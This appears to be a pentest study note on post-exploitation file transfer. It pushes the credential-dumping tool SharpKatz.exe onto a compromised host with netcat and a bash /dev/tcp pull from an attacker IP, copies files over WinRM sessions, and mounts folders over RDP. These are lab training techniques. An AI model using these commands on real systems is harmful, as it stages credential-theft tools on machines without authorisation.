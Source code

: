 ```yaml
---
title: File_Transfer_Netcat
tags:
  - netcat
  - file_sharing
  - rdp
  - winrm
created: 2025-02-25
---
```


# Miscellaneous_File_Transfers
## File Transfer with Netcat
The target or attacking machine can be used to initiate the connection, which is helpful if a firewall prevents access to the target.
### Sending File
#### Target host listening on port 8000
```sh
nc -l -p 8000 > SharpKatz.exe
```

#### Attack host sending file to compromised machine
```sh
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

### Sending File as Input to Netcat
Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections.
####  Attack host listening on port 443
```sh
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Target host  connecting to receive a file
```sh
nc 192.168.49.128 443 > SharpKatz.exe
```

##### Target host using /dev/tcp to receive a file
```sh
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Remoting for File Transfer

PowerShell Remoting (WinRM) allows executing scripts or commands on remote machines and can be used for file transfer operations. By default, enabling PowerShell Remoting creates both an HTTP and an HTTPS listener:

- **TCP/5985** for HTTP
- **TCP/5986** for HTTPS
### Prerequisites

- Administrative access on the target system or membership in the **Remote Management Users** group.
- PowerShell Remoting enabled on the remote machine.

### Confirm WinRM Connectivity

```powershell
PS C:\htb> whoami
htb\administrator

PS C:\htb> hostname
DC01

PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

### Create a PowerShell Remoting Session

```
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

### File Transfer Using PowerShell Remoting

#### Copying from Localhost (DC01) to Remote Session (DATABASE01)

```
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

#### Copying from Remote Session (DATABASE01) to Localhost (DC01)

```
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP File Transfer

### Using Copy & Paste

- Copy a file from the local machine and paste it into the RDP session.    
- Works natively in Windows using **mstsc.exe**.
- **Limitations:** May not work in all cases, especially with certain configurations or restrictions.

### Using a Mounted Local Folder (Linux to RDP)

#### Mounting a Folder with `rdesktop`

```bash
rdesktop <target_ip> -d <domain> -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

#### Mounting a Folder with `xfreerdp`

```bash
xfreerdp /v:<target_ip> /d:<domain> /u:administrator /p:'Password0@' /drive:linux,/home/user/rdesktop/files
```

### Accessing the Mounted Drive

- The mounted folder can be accessed in the RDP session via `\\tsclient\`.
- Only accessible by the logged-in RDP user.
- Alternatively from Windows, the native [mstsc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) remote desktop client can be used.